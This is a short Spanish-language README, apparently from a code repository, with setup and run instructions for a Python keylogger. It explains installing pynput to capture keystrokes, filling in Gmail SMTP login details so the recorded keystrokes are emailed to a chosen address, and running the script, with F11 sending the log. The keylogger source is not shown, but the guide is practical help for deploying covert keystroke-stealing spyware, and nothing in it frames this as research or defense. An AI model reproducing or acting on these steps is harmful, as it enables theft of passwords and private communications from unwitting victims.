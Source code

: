 # 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

## ▶️ Ejecutar el Keylogger

Para iniciar el keylogger, ejecuta:

```bash
python keylogger.py
```

📌 **Presiona `F11` para enviar el registro por correo o `ESC` para salir.**


```bash
pip list | grep -E "pynput|smtplib|email"
```

Si todo está bien, ya puedes ejecutar el script sin problemas. 🚀
